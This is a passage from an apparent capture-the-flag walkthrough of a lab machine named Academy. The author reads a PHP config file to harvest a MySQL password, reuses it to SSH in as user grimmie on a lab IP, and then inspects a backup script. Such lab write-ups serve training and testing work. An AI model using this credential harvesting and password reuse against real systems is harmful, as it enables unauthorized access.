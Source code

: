 <aside>
💡 Lines of Interest:
**/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";**

</aside>

```jsx
$ cat /var/www/html/academy/admin/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");

?>
```

<aside>
💡 We have credentials for grimmie now. maybe we could ssh his account.

</aside>

```jsx
──(wahaj㉿wahaj)-[/transfers]
└─$ ssh grimmie@172.16.2.129  
grimmie@172.16.2.129's password: 
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 30 03:21:39 2021 from 192.168.10.31
```

<aside>
💡 SSH unlocked.

</aside>

```jsx
grimmie@academy:~$ ls
backup.sh
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
grimmie@academy:~$
```
